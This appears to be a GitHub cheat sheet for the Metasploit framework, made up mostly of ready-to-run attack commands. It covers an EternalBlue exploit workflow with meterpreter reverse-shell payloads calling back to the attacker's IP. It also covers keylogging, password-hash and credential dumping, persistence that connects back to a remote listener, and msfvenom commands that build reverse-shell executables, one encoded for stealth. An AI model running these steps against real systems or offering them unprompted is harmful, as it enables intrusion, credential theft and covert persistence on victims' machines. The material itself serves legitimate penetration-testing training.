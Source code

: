 # 💥 Metasploit Cheat Sheet

Metasploit is one of the most powerful frameworks for penetration testing and red teaming. This cheat sheet contains key commands, modules, workflows, and post-exploitation tips to help you stay sharp and efficient.

---

## 📦 Table of Contents

- [🔧 Starting Metasploit](#-starting-metasploit)
- [🔍 Scanning and Discovery](#-scanning-and-discovery)
- [🎯 Exploitation Workflow](#-exploitation-workflow)
- [📡 Payloads and Sessions](#-payloads-and-sessions)
- [👣 Post-Exploitation](#-post-exploitation)
- [🔐 Privilege Escalation](#-privilege-escalation)
- [🎭 Persistence](#-persistence)
- [📜 Useful Commands](#-useful-commands)
- [🛠️ Custom Payloads with `msfvenom`](#️-custom-payloads-with-msfvenom)
- [📚 Resources](#-resources)

---

## 🔧 Starting Metasploit

```bash
sudo systemctl start postgresql
msfdb init         # First time only
msfconsole         # Launch Metasploit

search type:auxiliary scanner      # List scanning modules
use auxiliary/scanner/portscan/tcp
set RHOSTS <target>
run

Common scanners:

    scanner/portscan/tcp

    scanner/http/http_version

    scanner/ssh/ssh_version

    scanner/smb/smb_version

search <service/vuln>
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS <target>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-ip>
exploit

📡 Payloads and Sessions
List Payloads:
`
`show payloads`

Common Payloads:

| OS     | Payload                            |
| ------ | ---------------------------------- |
| Linux  | linux/x86/meterpreter/reverse\_tcp |
| Win32  | windows/meterpreter/reverse\_tcp   |
| PHP    | php/meterpreter/reverse\_tcp       |
| Python | python/meterpreter/reverse\_tcp    |



👣 Post-Exploitation

Inside Meterpreter:

sysinfo                # System info
getuid                 # Current user
ps                     # List processes
shell                  # Drop to system shell
upload / download      # Transfer files
screenshot             # Take screenshot
keyscan_start / dump   # Keylogger
hashdump               # Dump password hashes

run autoroute -s 192.168.10.0/24

🔐 Privilege Escalation

getsystem              # Try auto priv-esc
load kiwi              # Use mimikatz-style tools
creds_all              # Dump all credentials

Manual Enumeration:

    Check C:\Users\Public, Startup folders, weak services

    Look for unquoted service paths, insecure permissions


🎭 Persistence

```bash
run persistence -U -i 5 -p 4444 -r <your-ip>```

Options:

    -U: Run on user login

    -i 5: Delay interval in seconds

    -p: Port to connect back

    -r: Remote IP (your listener)

📜 Useful Commands
| Command           | Description                           |
| ----------------- | ------------------------------------- |
| `help`            | List commands                         |
| `info`            | Show module details                   |
| `use <module>`    | Load a module                         |
| `set <option>`    | Set option value                      |
| `show options`    | Show required options                 |
| `exploit` / `run` | Execute module                        |
| `jobs`            | List background jobs                  |
| `kill <id>`       | Kill job or session                   |
| `db_nmap`         | Run Nmap and save results to database |
| `notes`           | Add or view target notes              |


🛠️ Custom Payloads with msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=4444 -f exe > shell.exe
```
Output Formats:
| Format | Description        |
| ------ | ------------------ |
| exe    | Windows executable |
| elf    | Linux binary       |
| php    | PHP code           |
| asp    | ASP shell          |
| war    | Java WAR file      |
| raw    | Raw payload        |
| c      | C code shellcode   |


To encode payloads:

```bash
msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -i 5 -f exe > encoded.exe
```


📚 Resources

    Metasploit Unleashed

    PayloadsAllTheThings

    MSF Module Library

    GTFOBins

    
Stay silent, stay stealthy — and always verify your shell! 🐚⚡

